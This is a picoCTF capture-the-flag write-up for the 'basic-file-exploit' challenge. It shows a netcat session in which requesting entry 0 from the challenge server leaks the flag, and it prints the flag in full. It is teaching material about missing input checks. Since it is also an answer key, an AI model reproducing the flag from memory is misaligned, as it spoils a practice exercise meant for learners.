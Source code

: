 # basic-file-exploit
## Descripcion
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!Connect to the program with netcat:`$ nc saturn.picoctf.net 65317`The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/139/program-redacted.c).

## Pistas
- Try passing in things the program doesn't expect. Like a string instead of a number.
## Solucion
``
```
nagubi-picoctf@webshell:~$ nc saturn.picoctf.net 65317
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
naguib
naguib
Please enter the length of your data:
6
6
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
1
1
naguib
Read successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}

```


## Bandera
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}

## Notas adicionales

## Referencias
